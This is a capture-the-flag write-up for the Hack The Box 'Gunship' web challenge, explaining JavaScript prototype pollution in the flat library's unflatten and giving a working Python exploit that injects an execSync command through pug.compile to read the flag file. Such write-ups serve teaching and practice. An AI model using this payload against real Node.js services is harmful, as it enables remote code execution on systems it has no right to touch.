



# **Gunship**

### Picture0 - from HTB

Challenge description:<br>
A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

[Link to challenge](https://app.hackthebox.com/challenges/gunship)

In this challenge we get access to the source code, and we can see that flag is in challenge directory, it's not loaded in any way in code, so we quickly know that to solve this challenge we will have to figured out how to read the flag directly from file.

Looking through source code and main page of application, it's looks like there is only one functionality and it's sending name of your fav artist to the server.


 In file **challenge/static/main.js** there is function responsible for sending the request on endpoint `/api/submit`.

```
fetch('/api/submit', {
  	method: 'POST',
		body: JSON.stringify({
			'artist.name': document.querySelector('input[type=text]').value
		}),
		headers: {'Content-Type': 'application/json'}
	}).then(resp => {
		return resp.json();
	}).then(data => {
		document.getElementById('output').innerHTML = data.response;
});
```

More interesting part is in **challenge/routes/index.js** file, where the response for our request is prepared.

```
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});
```
This is simply the whole essence of an application, so something I knew something must be wrong here. The thing that caught my eye was `unflatten()` function. After cheeking version of a flat library in **package.json**

```
"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
```
and some Googling, I found that Flat in that version was vulnerable to **Property Polution**

## **Property Polution**
At this point you probably already know what this vulnerability is, but still I'm gonna explain it to remember and understand it better ;p.

Let's consider simply object with two properties, we don't specify any custom class, so we are using base `Object` class:
```
let obj1 = {
  a:10,
  b:20
}
```
Of course we can get the variable by typing `obj1.a` and `obj1.b`, but besides that, the object has more callable properties by default then only those two, e.g. toString() method.



All available methods appears when we type `obj1.__proto__`.



If property doesn't exist in the current object, JS engine tries to find this property in the prototype of that object (which is the very thing mentioned earlier - \_\_proto\_\_). To check out the prototype we can use `obj.__proto__` or `Object.getPrototypeOf(obj)` - those two expression are equal.

We can edit properties of this prototype and then  every object based on that prototype will inherit those changes. Almost every thing in JS is an object, so when we created our simple object `obj1` we used `Object class` and when we edit the prototype of this class it will affect every object ever created.

Let's have another object - `user`
```
let user = {
  name: "mike"
}
```
And we can pollute our previous object - `obj1`:
```
obj1.__proto__.isAdmin = true
```

In that way, we edited object prototype of base class Object, and our user became admin:



## **Back to the challenge**

POSIX wrote great article about AST Injection (link int the Resources section) with examples and exploits. The first exploit prepared for `unflatten()` didn't work for me, but the second one, pointed into `pug.compile()` - yes. I changed the exec command to `cat /app/flag* > /app/views/index.html` to write flag to the main HTML file and also to pass the if check, I added one of the artist to the JSON.

```
json = {
    "artist.name":"Haight",
    "__proto__.block": {
        "type":"Text",
        "line": "process.mainModule.require('child_process').execSync(`cat /app/flag* > /app/views/index.html`)"
    }
}
```
The final script below:
```
import requests


url = "http://<IP>:<PORT>"
payload = "cat /app/flag* > /app/views/index.html"

json = {
    "artist.name":"Haight",
    "__proto__.block": {
        "type":"Text",
        "line": "process.mainModule.require('child_process').execSync(`" + payload + "`)"
    }
}

resp = requests.post(url=url + "/api/submit", json=json)

# get flag
flag = requests.get(url=url + "/").text
print(flag)
```


## Resources
- [AST Injection](https://blog.p6.is/AST-Injection/) by [POSIX](https://blog.p6.is/)
- [Here's how your Code can be Polluted](https://www.youtube.com/watch?v=XS_UMqQalLI&t=634s) by [PwnFunction](https://www.youtube.com/channel/UCW6MNdOsqv2E9AjQkv9we7A)
- [Exploiting prototype pollution – RCE in Kibana](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) by Michał Bentkowski
- [Understanding \_\_proto\_\_ in JavaScript](https://medium.com/dev-proto/understanding-proto-in-javascript-c5a42647f04) by Chidume Nnamdi
- [NodeJS - \_\_proto\_\_ & prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
